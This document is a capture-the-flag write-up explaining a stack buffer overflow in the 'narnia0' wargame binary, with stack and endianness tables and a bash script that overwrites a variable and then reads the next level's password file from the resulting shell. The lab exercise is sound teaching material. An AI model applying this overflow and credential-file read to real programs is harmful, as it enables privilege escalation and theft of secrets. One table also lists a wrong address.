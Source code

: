 # narnia0

`/narnia/narnia0` can be exploited by a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) attack.

## Aim

When run, `narnia0` challanges us to alter the value of `val` to `0xdeadbeef`

## Analysis

We can see in `narnia0.c`, `val` is initialised as the 32-bit hex value `0x41414141`. Immediately after it, a character array `buf` is initialised.

```c
long val=0x41414141;
char buf[20];
```

Local variables are stored on the **stack**. As the stack grows, `buf` will be immediately after `val`, like so:

|address|+0|+1|+2|+3|variable|
|-|-|-|-|-|-|
|0x0ed4| | | | |`buf[0]` to `buf[3]` *(uninitialised)*|
|0x0ed8| | | | |`buf[4]` to `buf[7]`*(uninitialised)*|
|0x0edc| | | | |`buf[8]` to `buf[11]`*(uninitialised)*|
|0x0ee0| | | | |`buf[12]` to `buf[15]`*(uninitialised)*|
|0x0ee4| | | | |`buf[16]` to `buf[20]`*(uninitialised)*|
|0x0ee8|41|41|41|41|`val`|

> In this case the stack grows towards *lower* addresses. Your architecture may differ.

If there is an way to write [unbounded data](https://en.wikipedia.org/wiki/Stack_buffer_overflow#Exploiting_stack_buffer_overflows) to the stack, we can overflow the intended location and overwrite the program in memory.

When run, `narnia0` prompts for user input. We can see from `/narnia/narnia0.c`, `stdin` is used to set the value of `buf`:

```c
scanf("%24s",&buf);
```

The argument `%24s` indicates `scanf` will handle input as a string (character array), and truncate to 24 characters in length. The result will then be copied to the address `&buf` (`&buf` is the pointer to where the value `buf` is stored).

As `buf` was only initialised to hold 20 characters, 4 will overflow down the stack.

## Exploitation
### Design

Remember variables added onto the **top** the stack, but our overflow will be coming **from the top to the bottom** of the stack.

Our desired overflow is:

- 20 character bytes padding
- 4 hex bytes leading to a value of `0xdeadbeef` when read from memory

As `val` is of type `long`, we need to take into account the [endianness](https://en.wikipedia.org/wiki/Endianness) of the system.

|endianness|overflow|+0|+1|+2|+3|`long` value|
|-|-|-|-|-|-|-|
|big|`0xdeadbeef`|de|ad|be|ef|`0xdeadbeef`|
|little|`0xefbeadde`|ef|be|ad|de|`0xdeadbeef`|

>  In this example, the system is *little-endian*. Your OS may differ.

In total, the exploit will have the following effect:

|address|+0|+1|+2|+3|variable|
|-|-|-|-|-|-|
|0x0ed4|61|61|61|61|`buf`|
|0x0ed8|61|61|61|61|`buf`|
|0x0edc|61|61|61|61|`buf`|
|0x0ee0|61|61|61|61|`buf`|
|0x0ee4|61|61|61|61|`buf`|
|0x0ed4|ef|be|ad|de|`val` *(overflow from `buf`)*|

### Implementation

One possible way to produce this sequence is:

```bash
printf "aaaaaaaaaaaaaaaaaaaa$(printf 'efbeadde' | xxd -r -p)"
```

If we copy and paste the resulting sequence into `narnia0` we get a shell! Using `whoami` shows we are `narnia1`. We can now run `cat /etc/narnia_pass/narnia1` and get the password for `narnia`.

Putting it all together:

```bash
#!/bin/bash

# Generate our exploit input (remember newlines!)
# Our overflow value in ASCII format
(printf "aaaaaaaaaaaaaaaaaaaa$(printf 'efbeadde' | xxd -r -p)\n" && \

# Our command to run once narnia0 give us an escalated shell
printf "cat /etc/narnia_pass/narnia1\n") | \

# Pass exploit to the program
/narnia/narnia0
```

